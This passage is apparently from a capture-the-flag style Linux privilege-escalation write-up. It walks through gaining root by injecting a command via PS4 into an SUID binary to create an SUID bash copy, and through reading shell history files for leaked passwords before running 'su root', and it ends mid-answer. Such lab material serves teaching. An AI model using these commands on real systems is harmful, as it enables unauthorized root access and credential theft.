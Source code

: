 ```
Run the /usr/local/bin/suid-env2 executable with bash debugging enabled and the PS4 variable set to an embedded command which creates an SUID version of /bin/bash:

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

![image](https://user-images.githubusercontent.com/14150485/172802831-3042d285-a920-48c9-88b4-b7f3088832b5.png)

This has created a `/tmp/rootbash` executable with SUID that we can use to gain root on the target machine:

```
/tmp/rootbash -p
```

![image](https://user-images.githubusercontent.com/14150485/172803148-e86133a5-86b3-4aed-8972-75567186a9cc.png)



<br/>

#### 15.1: Read and follow along with the above.

```
No answer needed
```

<br/>
<br/>

### 16: Passwords & Keys - History Files

A common error attackers can exploit for privilege escalation purposes is accidental password input on the command line instead of a password prompt, as those are likely to be recorded in a history file. We can view the contents of all the hidden history files in the user's home directory:

```
cat ~/.*history | less
```

![image](https://user-images.githubusercontent.com/14150485/172804198-d2d4e5c6-2ad8-492c-8665-8db3d0f18c4d.png)

Looks like someone attempted to connect to a MySQL server at some point and accidentally left no spaces after the `-u` and `-p` options used for `username` and `password` input espectively, meaning we can attempt to escalate to a higher privilege using this data:

```
su root
```

![image](https://user-images.githubusercontent.com/14150485/172804748-44eab956-525c-461c-91b8-0893fa23ff64.png)

<br/>

#### 16: What is the full mysql command the user executed?

<br/>

The full string was printed upon viewing the history file earlier. The answer is:
```